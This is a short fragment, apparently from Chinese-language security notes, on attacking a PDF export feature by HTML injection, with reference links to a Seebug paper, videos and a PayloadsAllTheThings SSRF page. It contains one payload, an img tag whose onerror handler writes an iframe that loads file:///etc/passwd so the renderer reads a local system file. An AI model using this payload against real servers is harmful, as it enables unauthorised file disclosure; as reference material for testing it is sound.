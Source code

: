 https://www.youtube.com/watch?v=htDzTiqgZs8

能够导出PDF，使用iframe标签进行添加

```xml
<img src="echopwn" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
```

## 参考链接

https://paper.seebug.org/510/

https://www.youtube.com/watch?v=o6AJH9PFEd4&t=5s

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md#http

